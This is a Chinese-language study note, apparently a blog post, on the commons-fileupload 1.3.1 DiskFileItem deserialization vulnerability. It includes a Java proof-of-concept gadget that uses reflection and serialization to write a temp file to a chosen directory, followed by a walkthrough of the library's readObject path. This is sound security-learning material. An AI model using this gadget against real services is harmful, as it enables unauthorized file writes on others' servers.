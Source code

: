 #  FileUpload1反序列化漏洞(学习笔记)   
 白帽子   2023-12-20 00:00  
  
##### commons-fileupload的简介  
  
FileUpload包可以很容易地添加强大的，高性能，文件上传到你的  
Servlet  
的Web应用程序的能力。  
  
FileUpload解析HTTP请求符合RFC 1867年，“在HTML的文件上传。就是说，如果一个HTTP请求是使用POST方法提交，并与一个内容类型“multipart/norm-data”，然后FileUpload可以解析这个请求，并把结果提供一个容易使用的调用方式。  
##### 最终payload  
```
        byte[] bytes = "relay学安全".getBytes("UTF-8");
        File repository = new File("/Users/relay/Downloads/aaa");

        DeferredFileOutputStream dfos = new DeferredFileOutputStream(0, repository);

        DiskFileItem diskFileItem = new DiskFileItem(null, null, false, null, 0, repository);

        Field dfosFile = DiskFileItem.class.getDeclaredField("dfos");
        dfosFile.setAccessible(true);
        dfosFile.set(diskFileItem, dfos);

        Field field2 = DiskFileItem.class.getDeclaredField("cachedContent");
        field2.setAccessible(true);
        field2.set(diskFileItem, bytes);
        serialize(diskFileItem);
        unserialize("ser.bin");

        public static void serialize(Object obj) throws Exception {
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
          oos.writeObject(obj);
      }

      public static Object unserialize(String Filename) throws Exception {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
          Object obj = ois.readObject();
          return obj;
      }
```  
##### 漏洞环境  
###### maven依赖  
```
<dependency>
    <groupId>commons-fileupload</groupId>
    <artifactId>commons-fileupload</artifactId>
    <version>1.3.1</version>
</dependency>
<!-- https://mvnrepository.com/artifact/commons-io/commons-io -->
<dependency>
    <groupId>commons-io</groupId>
    <artifactId>commons-io</artifactId>
    <version>2.4</version>
</dependency>
```  
######   
  
Jdk版本是1.8，所以我们只能往指定的目录去写入临时文件。  
##### 漏洞流程  
  
首先我们简单来看一下这个payload,可以看他他反序列化的是diskFileItem，diskFileItem是DiskFileItem类，那也就是说他会调用DiskFileItem类的readObject方法，我们跟进去看看。首先我们看到他的构造函数中对这一大堆值进行了赋值。  
  
简单来说下主要的几个值都代表什么。  
  
fileName: 原始的文件名  
  
sizeThreshold:文件大小阈值，如果超过这个值，上传文件将会被储存在硬盘上  
  
repository:File 类型的成员变量，如果文件保存到硬盘上的话，保存的位置  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2morfo2v8dHMAYoHtTjAiaDsvctuvxUkMkT7sAsudWiaQO66tKxkoFxfqsuxPoXfpxdI13p2Fuic5X1kQ/640?wx_fmt=png "")  
  
还有几个值并没有在构造函数中进行赋值，那么我们就需要通过反射进行给他赋值了。  
```
private byte[] cachedContent; //这个值后面不能让他为空，不然写入不了文件。
private File dfosFile; //一个 File 对象，允许对其序列化的操作
private transient DeferredFileOutputStream dfos; //一个 DeferredFileOutputStream 对象，用于 OutputStream 的写出
```  
  
我们跟进readObject方法。首先进行了几个判断，判断我们的repository不为空的话，接着判断repository如果是目录的话，紧接着判断我们的path路径中是否有 \0 如果有的话直接抛出异常，我们的repository是通过DiskFileItem的构造函数赋值过得。他的值是我们的目录。/Users/relay/Downloads/aaa  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2morfo2v8dHMAYoHtTjAiaDsvH1aHecVD3WfHV2icjwfBRsDa6AKzD0MEnRiaiaUbAHqo80f6cyWicAQHYA/640?wx_fmt=png "")  
  
接下往下走来到下半段，首先调用getOutputStream方法，返回的是一个OutputStream对象，我们跟进去。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2morfo2v8dHMAYoHtTjAiaDsvuPktqWMJN0DgPLfzjV4TVOThSUTjVib2Hr6FcxaSVjENoj5yibPzKXZQ/640?wx_fmt=png "")  
  
来到getOutputStream方法，首先判断dfos(就是我们的DeferredFileOutputStream对象)是否为null，这个值我们是通过反射进行赋值过得，所以接下来调用getTempFile方法。跟进去。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2morfo2v8dHMAYoHtTjAiaDsvJ1qNl3mbFYmibzXdFTAa7jPNsboMKp45cH2J8msyuUXbAvlWwFWfx4A/640?wx_fmt=png "")  
  
来到getTempFile方法，将我们的目录复制给了tempDir变量，然后通过调用format方法进行格式化，然后赋值给tempFileName，最后封装成File类，然后返回。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2morfo2v8dHMAYoHtTjAiaDsv3DrBzYMZY57mhyBcOFnexR5yCF6ibmMJ91BNU7fEH6Js49SxJhKjycw/640?wx_fmt=png "")  
  
回到readObject方法，判断cachedContent如果不等于null的话，直接就将cachedContent写入，cachedContent通过反射已经给他赋值过了他的值是relay学安全。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2morfo2v8dHMAYoHtTjAiaDsvtzzUesyWll9yKpCwbNaSricBB4wEoXE1twB21JXJRaNuQ99wT9DrLVA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2morfo2v8dHMAYoHtTjAiaDsvEZWhMVbC56zNyWuvYicNGCibz2yfJQrQd3IxYTwAFkBn8vnHF2Z34XoA/640?wx_fmt=png "")  
  
到这里就基本结束了，我们可能在想这个漏洞写进去临时文件也没什么用处啊。  
  
这个漏洞他是跟jdk版本相关的，但是基本上不会使用jdk1.7 或者 1.6了。所以jdk1.8 + commons-fileupload 1.3.1只能做到指定目录写文件，并且只是临时文件。  
  
参考:  
  
https://paper.seebug.org/731/#payload_1  
  
  
